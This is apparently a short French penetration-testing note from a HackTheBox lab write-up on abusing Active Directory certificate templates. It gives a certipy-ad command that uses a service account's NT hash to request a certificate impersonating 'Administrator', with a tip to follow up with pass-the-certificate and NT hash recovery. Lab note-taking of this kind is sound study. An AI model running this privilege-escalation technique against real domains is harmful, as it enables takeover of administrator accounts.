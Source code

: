 

> [!TIP]
> Demander un certificat pour n'importe quel user ("administrator" par exemple) ! PUIS GO [[Pass The Certificate]] + [[UNPAC THE HASH]] pour récupérer le hash NT

### *Certipy-AD*

Requête d'un certificat pour le user "Administrator"

```bash
certipy-ad req -username ca_svc@sequel.htb -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -dc-ip 10.10.11.51 -target DC01.sequel.htb -template DunderMifflinAuthentication -upn 'Administrator'
```